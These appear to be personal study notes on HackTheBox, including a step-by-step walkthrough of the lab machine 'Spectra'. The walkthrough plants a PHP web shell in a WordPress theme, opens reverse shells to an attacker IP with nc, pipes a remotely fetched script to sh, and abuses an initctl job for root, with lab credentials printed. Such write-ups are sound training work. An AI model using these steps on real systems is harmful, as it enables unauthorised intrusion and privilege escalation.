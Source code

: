 # Notes regarding the HackTheBox materials.
-------------------------------------------

## General Notes
-----------------
1. The VirtualBox network setting should be set to bridged adaptor to make machines pingable.

2. With changing machines, it may be needed to disconnect and reconnect with openvpn.


## Resources
------------
1. [Web Shells](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)
2. [Web PowerShell](https://int0x33.medium.com/from-php-s-hell-to-powershell-heaven-da40ce840da8)
3. [Rerverse Shell Onelines](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
4. [GTFOBins](https://gtfobins.github.io/)


## Commands
------------
1. Network enumeration with `nmap`.
    - `nmap -sC -sV -oA <file-basename> <ipaddress>`
        - `-sC`: specify default scripts. Equivalent to `--script=default`.
        - `-sV`: probe open ports to determine service/version info.
        - `-oA`: Output in the three major formats at once.
        - to scan all ports add `-p-` switch at the end.

2. Wordpress scan with `wpscan`:
    - `wpscan --url <link> --detection-mode aggressive --plugins-detection aggressive -e ap -o <file>`
        - `-e ap`: enumerate all plugins.
        - `-o <file>`: output to <file>.
        - to enumerate the users:
            - `wpscam --url <link> -e u`
            - for aggressive detection mode use, `--detection-mode aggressive` switch.

3. In php, $_REQUEST is an associative array that by default contains the contents of $_GET, $_POST and $_COOKIE. 


## Boxes
---------

### Spectra
-----------
1. The path:

    - Run `nmap`, open ports are, `80: http`, `22: ssh`, `3306: my-sql`. 
        Not much information from nmap.
    
    - Determine the webpage is with wordpress, by opening the http port 
        in a browser after adding the ip to hosts file.
    - By examining the source page of the database error (the `Test` link at the webpage) 
        and by the `wp-die-message`, we infer it's a wordpress database error.
    
    - Examining the link of `Test` page, and checking the `spectra.htb/testing/` 
        directory we see an open listing!
    - The files ending in `*.php` will be rendered by the browser, we see a `wp-config.php.save` file, 
        we open it, there is nothing, we see the source by `Ctrl+u`, the reason is everything is 
        hidden by the browser between `<?php` and `>`.
    - We see from the file `wp-config.php.save` source the username and password for the database.
    - We try to login to the database with the provided username and password in the file:
        - `mysql -h 10.10.10.229 -u devteam -p -D dev`
        - we get: Host is not allowed to connect to this MySQL server
        - the password is fine, but the host is not allowed to login.
        - in MySQL when you create a user, the user is tied with the ip address loging in, 
            normally you are allowed only to login with the localhost, 127.0.0.1
        - this achieves nothing!

    - We try to `ssh` to the host with the MySQL credentials:
        - `ssh devteam@10.10.10.229` and the password `devteam01`, we can't. 

    - We try to open `spectra.htb/main/wp-login.php` for the wordpress login dashboard.
        - with the previous enumeration of the users with `wpscan` we try the username `administrator` 
            and the password we got from the `wp-config.php.save` file. Success!

    - The problem now is getting a shell (specifically a web shell)! We can do it through a plugin, but this has risk of ruining 
        the website, if there is any errors.

    - We choose an inactive theme, so if anything happens, the problem isn't visible. In theme editor 
        we select the TwentyNineteen theme.

    - In the theme editor, in the `404.php` file, after all the content we add the 
        `<?php system($_REQUEST['ippsec']); ?>`
        line, but because we get an error we try the head of the file, we go to the url:
        "http://spectra.htb/main/wp-content/themes/twentynineteen/404.php?ippsec=whoami"
        we get the `nginx` which is the user running the php file.

    - Above method does not work for getting a reverse shell. We copy from reverse shell cheetsheet website the one for php, 
        of course we change the ip for the one in htb website, which is `10.10.16.4` and the port for `9001`. We intercept the 
        GET method of the `404.php` file with burp suit. Send the request to repeater section of the burp suit. Change the mehod 
        for POST. We listen to port `9001` with `nc`:
            - `nc -lvnp 9001`
        we get the shell.

    - We are the nginx user. We look around, there is practically no usual tools to work with, by looking around we see the 
        `/etc/lsb-release`, by catting the file, we see that it's a chromeos system.

    - Now we try to privilage esclate ourselves. We use the `linPEAS.sh` script. We use curl to run the linPEAS scrip from our own 
        local system. Remember that our ip is `10.10.16.4`, and on the other we open a server using python on our end where the 
        `linPEAS` script is at. So on the machine we run:
            - `curl 10.10.16.4:8000 | sh`
                we pipe it to `sh` since we are not sure if there is a bash shell. On our local we open a server:
                    - `python -m http.server`

    - We let the script to scan the system. By looking around at the output of the program, we come across an `autologin`
        config file under `/opt`. By looking around we see a `/etc/autlogin/passwd`, by catting it we a password, `SummerHereWeCome!!`.

    - We see that there is a python3. We use it to get a tty to the machine. On the machine we run:
        - `python3.6 -m 'import pty;pty.spawn("/bin/bash")'`
    
    - We don't know which user, the found password, belongs to. We try to ssh with different user, finally `ssh katie@10.10.10.229` succeeds.

    - By looking around there is nothing in home directory of `katie`. We do `sudo -l` to see which programs this user can run using 
       sudo. We see a `/sbin/initctl`. We try to get a help for it. We get a help with `sudo /sbin/initctl help`. 

    - It seems that `initctl` is a way to manage processes and jobs. In `/etc/init` we see bunch of conf files.

    - We use `groups` to see whcih groups we are of, we see that are a memeber of `developers` group. By `ls -la` of `init` files, 
        we see that there are bunch of `test` conf files, that belong to `developers` group. This means that we can use `initctl` to 
        run these scripts as `root` user. We grab a reverse shell oneliner for python and `exec` it inside the `test` conf file. 

   - We stop and start the `test` job:
        - `sudo /sbin/initctl stop test`
        - `sudo /sbin/initctl star test`

   - We remember that in the oneliner for reverse shell, we change the ip for our own, `10.10.16.4` and use the port 9001, we listen to 
        it by `nc`:
            - `nc -lvnp 9001`
        and voilla, we have our root shell!


2. Questions:

    - Why added the 10.10.10.229 ip to `/etc/hosts` file for opening the new links in it in a browser?

